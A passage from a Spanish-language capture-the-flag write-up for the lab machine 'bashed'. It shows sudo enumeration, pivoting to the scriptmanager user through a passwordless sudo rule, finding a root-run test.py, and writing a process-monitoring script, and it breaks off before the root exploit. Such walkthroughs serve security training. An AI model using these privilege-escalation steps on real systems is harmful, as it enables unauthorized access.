 ```bash
www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Podemos identificar que podemos ejecutar cualquier tipo de comando sin contraseña como el usuario `scriptmanager`, por lo que vamos a ejecutar el comando `bash` para obtener una shell con permisos del usuario recién encontrado.

```bash
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html/dev$ whoami
scriptmanager
```

## ESCALADA DE PRIVILEGIOS ROOT

Necesitamos tener acceso al usuario `root`, así que realizamos una enumeración de directorios y podemos identificar un archivo `test.py`, el cual, pretende ejecutar una acción y obtiene como salida un `txt` con permisos de administración.

```bash
dscriptmanager@bashed:/$ cd scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jul 23 13:20 test.txt
```

## PROCMON.SH

Para esta ocasión vamos a hacer uso de un script enumerador de procesos que denominaremos `procmon.sh`, esto  con la finalidad de monitorear los comandos que son ejecutados en tiempo real por la máquina, para esto ingresamos a la carpeta `/tmp` y creamos el siguiente script de monitoreo.

```bash
cd /tmp

nano procmon.sh

#!/bin/bash
old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon | command | kworker"
        old_process=$new_process
done
```
